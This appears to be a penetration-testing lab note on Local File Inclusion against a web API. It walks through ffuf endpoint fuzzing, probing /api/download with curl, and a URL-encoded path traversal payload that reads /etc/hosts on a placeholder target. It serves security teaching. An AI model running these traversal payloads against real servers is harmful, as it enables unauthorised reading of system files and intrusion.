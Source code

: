 # Local File Inclusion (LFI)
Refer to [[LFI - Local File Inclusion]] for in-depth attacks.

an attack that affects web applications and APIs alike. It allows an attacker to read internal files and sometimes execute code on the server via a series of ways, one being `Apache Log Poisoning`.
## Example Scenario
Suppose we are assessing such an API residing in `http://<TARGET IP>:3000/api`.

Let us perform API endpoint fuzzing using _ffuf_ and the [common-api-endpoints-mazen160.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common-api-endpoints-mazen160.txt) list, as follows.
```shell
ffuf -w "/home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/common-api-endpoints-mazen160.txt" -u 'http://<TARGET IP>:3000/api/FUZZ'
```

It looks like `/api/download` is a valid API endpoint. We can interact with it to look for anything good:
```shell
curl http://<TARGET IP>:3000/api/download
```

We need to specify a file, but we do not have any knowledge of stored files or their naming scheme. We can try mounting a Local File Inclusion (LFI) attack, though.
```shell
curl "http://<TARGET IP>:3000/api/download/..%2f..%2f..%2f..%2fetc%2fhosts"
```